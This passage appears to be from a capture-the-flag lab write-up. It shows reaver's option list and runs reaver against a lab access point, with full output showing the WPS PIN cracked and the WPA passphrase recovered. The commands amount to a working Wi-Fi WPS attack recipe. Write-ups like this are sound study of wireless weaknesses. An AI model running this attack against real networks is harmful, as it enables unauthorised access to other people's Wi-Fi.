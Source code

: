 ```
        -A, --no-associate              Do not associate with the AP (association must be done by another application)
        -N, --no-nacks                  Do not send NACK messages when out of order packets are received
        -S, --dh-small                  Use small DH keys to improve crack speed
        -L, --ignore-locks              Ignore locked state reported by the target AP
        -E, --eap-terminate             Terminate each WPS session with an EAP FAIL packet
        -J, --timeout-is-nack           Treat timeout as NACK (DIR-300/320)
        -F, --ignore-fcs                Ignore frame checksum errors
        -w, --win7                      Mimic a Windows 7 registrar [False]
        -K, --pixie-dust                Run pixiedust attack
        -Z                              Run pixiedust attack

Example:
        reaver -i wlan0mon -b 00:90:4C:C1:AC:21 -vv

```

I need the name of the name of the monitor-mode interface and the BSSID of the target AP. The example at the bottom, `reaver -i wlan0mon -b 00:90:4C:C1:AC:21 -vv` shows the BSSID looks like a MAC address, and in fact, [it is](https://en.wikipedia.org/wiki/Service_set_(802.11_network)).

#### Run Reaver

The target AP is `wlan0`, which has a MAC from the `iw` command above of `02:00:00:00:00:00`. The monitor-mode interface is `mon0`. Most `reaver` tutorials show using the `wash` command to get the BSSID/MAC. This doesn’t work here, and I’ll look at that in [Beyond Root](#beyond-root).

I’ll use those to run `reaver`:

```

netadmin@wifinetic:~$ reaver -i mon0 -b 02:00:00:00:00:00 -vv

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 02:00:00:00:00:00
[+] Switching mon0 to channel 1
[+] Received beacon from 02:00:00:00:00:00
[+] Trying pin "12345670"
[+] Sending authentication request
[!] Found packet with bad FCS, skipping...
[+] Sending association request
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M3 message
[+] Sending M4 message
[+] Received M5 message
[+] Sending M6 message
[+] Received M7 message
[+] Sending WSC NACK
[+] Sending WSC NACK
[+] Pin cracked in 2 seconds
[+] WPS PIN: '12345670'
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
[+] AP SSID: 'OpenWrt'
[+] Nothing done, nothing to save.

```
